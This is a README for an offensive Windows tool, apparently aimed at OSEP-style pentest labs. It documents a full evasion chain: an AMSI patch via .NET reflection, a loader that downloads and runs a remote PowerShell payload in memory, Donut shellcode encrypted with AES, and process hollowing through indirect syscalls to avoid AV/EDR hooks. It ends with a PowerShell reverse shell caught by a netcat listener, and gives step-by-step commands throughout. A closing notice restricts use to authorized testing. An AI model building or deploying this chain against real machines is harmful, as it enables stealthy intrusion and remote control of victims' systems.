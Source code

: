 # 🧬 Stealth Shellcode Runner – AES + Donut + PowerShell Loader

## 🎯 Motivation

The main reason behind this project is the high detectability of shellcode generated with tools like `msfvenom`. Even when using encoders, these payloads are often flagged by modern antivirus and EDR solutions due to their known byte patterns and behavioral signatures.

To overcome this limitation, this project was created to:

- Replace `msfvenom` with custom shellcode generated via [Donut](https://github.com/TheWover/donut)
- Encrypt the shellcode with AES-256-CBC to obfuscate its contents
- Load and execute it using a stealthy PowerShell-based loader
- Inject and run the payload through advanced **Process Hollowing** with manually mapped **indirect syscalls**

This execution chain is designed to provide maximum stealth and flexibility, and has been successfully tested in **OSEP-style** lab environments with **Windows Defender** enabled.

---

## 🛠️ Development Environment

This project was developed and tested using:

- **Visual Studio 2022 or newer**
- **.NET Framework 4.x** (for compatibility with `System.Management.Automation`)
- **Build configuration**: `Release | x64`

📌 Make sure to open the solution with Visual Studio to:

- Compile `Loader.exe` correctly  
- Add a reference to `System.Management.Automation.dll` if needed  
- Export the binary in `Release x64` mode before generating shellcode with Donut

---

## 🔧 Techniques Used

- **Process Hollowing**
- **AES-256-CBC Encryption**
- **Donut Shellcode Generator**
- **.NET AMSI Bypass**
- **Indirect Syscalls**
- **PPID Spoofing** *(not implemented, but supported)*

Tested in OSEP-like environments with **Windows Defender enabled**.

---

## 🧩 Step 1: Build the PowerShell Loader

- The C# loader (`Loader.cs`) patches AMSI via `.NET Reflection`, downloads a remote PowerShell payload, and executes it in memory using `Runspace`.
- Uses base64 string obfuscation for script names like `shell.ps1`.

📌 **Important:**  
Make sure the hardcoded IP in `Loader.exe` **matches the IP of the machine hosting `shell.ps1`** via HTTP.

📌 **Note:** You may need to reference:
```
C:\Program Files\WindowsPowerShell\Modules\PowerShellGet\<version>\System.Management.Automation.dll
```

---

## 🧪 Step 2: Generate Shellcode with Donut

Convert the compiled `Loader.exe` into raw shellcode using [Donut](https://github.com/TheWover/donut):

```bash
donut.exe -i Loader.exe -a 2 -f 1 -b 1 -o shellcode.bin
```

**Explanation of Donut flags:**
- `-a 2`: Target architecture (x64)
- `-f 1`: Output format: raw shellcode
- `-b 1`: AMSI/WLDP/ETW bypass level  
  - `1`: **No bypass**  
  - `2`: Abort on failure  
  - `3`: Continue on failure

💡 *This project uses Donut on Windows and then transfers `shellcode.bin` to a Kali Linux host for encryption.*

---

## 🔐 Step 3: Encrypt the Shellcode with AES

Use the provided Python script to encrypt the shellcode using AES-256-CBC:

```bash
python3 Aes_encryption.py
```

- The script outputs `encryptedShellcode`, `aesKey`, and `aesIV` as C# byte arrays.
- Paste these into the `Advanced_Process_Hollowing.cs` runner.

---

## 🧠 Step 4: Execute with Process Hollowing + Indirect Syscalls

The shellcode runner performs the following:

- Creates a suspended process (e.g., `svchost.exe`)
- Allocates memory using `NtAllocateVirtualMemory` (indirect syscall)
- Decrypts the AES shellcode in memory
- Writes shellcode using `NtWriteVirtualMemory` (indirect syscall)
- Sets memory protection to `RX` using `NtProtectVirtualMemory`
- Launches a thread using `NtCreateThreadEx` (indirect syscall)

✅ All syscalls are performed using dynamically allocated stubs from `ntdll.dll`, bypassing userland API hooks from AV/EDR.

❌ **PPID Spoofing is not implemented in this version**, although the use of `STARTUPINFOEX` structure means it could be added in the future.

---

## 🌐 Step 5: Host the PowerShell Reverse Shell

Create a `shell.ps1` PowerShell script containing your reverse shell logic.

📌 **Important:**  
Ensure that the IP inside `shell.ps1` (e.g. `TCPClient('192.168.1.X', 443)`) **matches the IP of your listener machine**.

Then serve the file using Python:

```bash
python3 -m http.server 80
```

---

## 📡 Step 6: Start Listener with Netcat

Use `netcat` (and optionally `rlwrap`) to catch the reverse shell:

```bash
rlwrap -cAr nc -lnvp 443
```

---

## 🚀 Step 7: Run the Shellcode Runner

Once everything is set up, run the compiled runner:

```bash
.\Advanced_Process_Hollowing.exe
```

If successful, your listener will receive the reverse shell connection.

---

## ✅ Summary

- AMSI is patched via .NET Reflection
- AES-encrypted shellcode is decrypted and injected into a remote process
- Full execution is achieved via indirect syscalls to evade detection
- The shellcode loads a PowerShell loader that fetches and executes a remote payload
- Designed for stealth and tested in Defender-enabled environments
- PPID Spoofing is not yet implemented, but possible with minimal modification

---

## ⚠️ Legal Notice

This project is for **educational and authorized penetration testing** purposes only.  
Do not use this code outside of lab environments or without **explicit permission**.  
Misuse may be illegal and unethical.

---
